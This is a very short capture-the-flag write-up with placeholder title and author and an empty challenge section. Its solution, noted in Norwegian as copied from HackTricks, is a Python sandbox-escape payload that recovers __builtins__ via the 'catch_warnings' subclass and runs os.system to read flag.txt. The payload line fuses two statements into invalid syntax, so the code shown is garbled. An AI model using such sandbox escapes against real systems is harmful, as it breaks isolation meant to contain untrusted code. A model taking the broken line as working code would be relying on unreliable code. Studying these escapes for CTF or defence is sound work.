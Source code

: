 # Taskname
> Author: Mx. Task

## Challenge

## Solution

Copy-paste løsning fra hacktricks
https://book.hacktricks.xyz/generic-methodologies-and-resources/python/bypass-python-sandboxes#python2-and-python3
```python
# Recover __builtins__ and make everything easier
__builtins__= [x for x in (1).__class__.__base__.__subclasses__() if x.__name__ == 'catch_warnings'][0]()._module.__builtins____builtins__["__import__"]('os').system('cat flag.txt')
```

